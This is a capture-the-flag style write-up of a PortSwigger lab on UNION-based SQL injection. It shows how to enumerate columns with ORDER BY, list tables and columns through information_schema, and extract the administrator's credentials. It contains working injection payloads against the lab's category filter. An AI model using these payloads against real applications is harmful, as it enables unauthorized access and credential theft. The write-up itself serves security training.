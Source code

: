 # Write-up: SQL injection attack, listing the database contents on non-Oracle database
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

In this lab, firstly we need to find the number of columns returned by the query. We are also unaware of the database type. Then we need to list the database tables and then a table that contains the user credentials.

To find the number of columns returned by the query, we can use the `ORDER BY` method. We will start with `ORDER BY 1` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we get error at `ORDER BY 3`, which means the number of columns is 2.

The link is like `/filter?category=Gifts'+ORDER+BY+3--`

```sql
' ORDER BY 3--
```

### Solution

Now, to list the database tables, we can use the `INFORMATION_SCHEMA` database. The table `TABLES` contains the table names. We can use the following link to list the tables.
`/Gifts'+UNION+SELECT+table_name,null+FROM+information_schema.tables--`

The query will be like
```sql
SELECT table_name, null FROM information_schema.tables
```

Above query gives a whole lot of tables. We can filter out the tables that contain the user credentials. 
After going through table pg_user, found a unique table `users_zusbow`.

Enumerating this table to find the column names, we can use the following link.
`/Gifts'+UNION+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name='users_zusbow'--`

The query will be like
```sql
SELECT column_name, null FROM information_schema.columns WHERE table_name='users_zusbow'
```

This gives the column names email, username_rwbloj, password_sjurdi. Since we only need the username and password, we can use the following link.
`/Gifts'+UNION+SELECT+username_rwbloj,password_sjurdi+FROM+users_zusbow--`

The query will be like
```sql
SELECT username_rwbloj, password_sjurdi FROM users_zusbow
```

This gives the username and password for `administrator` of the user and hence solves the lab.

![alt text](img/2.png)